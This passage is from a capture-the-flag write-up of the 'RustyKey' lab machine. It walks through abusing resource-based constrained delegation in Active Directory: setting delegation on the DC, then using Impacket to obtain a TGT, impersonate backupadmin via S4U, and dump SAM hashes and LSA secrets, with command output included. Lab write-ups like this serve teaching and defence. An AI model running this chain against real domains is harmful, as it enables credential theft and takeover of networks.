 ![](https://github.com/user-attachments/assets/e8fb6686-1e47-4733-8507-86e38a5d0099)

![](https://github.com/user-attachments/assets/955d3968-9c8a-4814-943e-a89181358156)

The `AddAllowedToAct` is used to abuse [resource-based constrained delegation (RBCD)](https://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd) by manipulating the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute on a target computer object which allows it to impersonate users when accessing another service.

Allow delegation on `DC` to `IT-COMPUTER3$`:

```cmd
powershell.exe -NoProfile -ExecutionPolicy Bypass -Command Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount IT-COMPUTER3$
```

`BACKUPADMIN` appears to be on the path to the domain:

![](https://github.com/user-attachments/assets/4a171ac2-2c23-4c26-a4a0-fe496e02892e)

Let's get a ticket for `BACKUPADMIN` through Kerberos delegation (S4U2self)

Refresh the TGT for `IT-COMPUTER3`:

```console
root@kali:~# impacket-getTGT rustykey.htb/IT-COMPUTER3:'Rusty88!' -dc-ip dc.rustykey.htb
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Saving ticket in IT-COMPUTER3.ccache

root@kali:~# export KRB5CCNAME=IT-COMPUTER3.ccache
```

Get service ticket with `impacket-getST`:

```console
root@kali:~# impacket-getST -spn 'cifs/DC.rustykey.htb' -impersonate backupadmin -dc-ip 10.10.11.75 -k 'rustykey.htb/IT-COMPUTER3$:Rusty88!'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Impersonating backupadmin
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in backupadmin@cifs_DC.rustykey.htb@RUSTYKEY.HTB.ccache

root@kali:~# export KRB5CCNAME=backupadmin@cifs_DC.rustykey.htb@RUSTYKEY.HTB.ccache
```

Use `impacket-secretsdump` to dump all domain hashes:

```console
root@kali:~# impacket-secretsdump -k -no-pass 'rustykey.htb/backupadmin@dc.rustykey.htb'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x94660760272ba2c07b13992b57b432d4
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e3aac437da6f5ae94b01a6e5347dd920:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
```